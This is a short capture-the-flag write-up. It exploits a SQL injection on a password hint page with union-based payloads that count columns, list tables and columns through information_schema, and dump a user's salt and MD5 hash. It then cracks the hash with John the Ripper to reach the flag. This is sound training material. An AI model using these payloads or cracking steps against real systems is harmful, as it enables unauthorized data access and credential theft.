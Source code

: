 Password hint page seems to have a SQL injection.

I'm following PayloadsAllTheThings guide on SQLi.
For some reason inserting another query with semicolon isn't working so I'll be using union-based.

```
# Find number of columns in query.
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#False. Query uses only 1 column

# Get table names. There is a "users" table.
1' UniOn Select gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables where table_schema="db" -- 

# Get column names from users table. |userID|,|username|,|pass_salt|,|pass_md5|,|hint|
1' UniOn Select gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name="users" --

# Get data. It shows only this user because it's the only one where hint != NULL
# Because of this, I assume it is the interesting user.
# |c.hackle---yhbG---f2b31b3a7a7c41093321d0c98c37f5ad---I don't need any hints man!|
1' UniOn Select gRoUp_cOncaT(0x7c,username,"---",pass_salt,"---",pass_md5,"---",hint,0x7C)+fRoM+users; -- 

# Let's get cracking. I assume the salt is used this way: pass+salt
# Password: pizza. Logging in gives us the flag.
john --list=subformats
echo c.hackle:f2b31b3a7a7c41093321d0c98c37f5ad$yhbG > hashes.txt
john --format=dynamic_1 --wordlist=/usr/share/dict/rockyou.txt hashes.txt
```


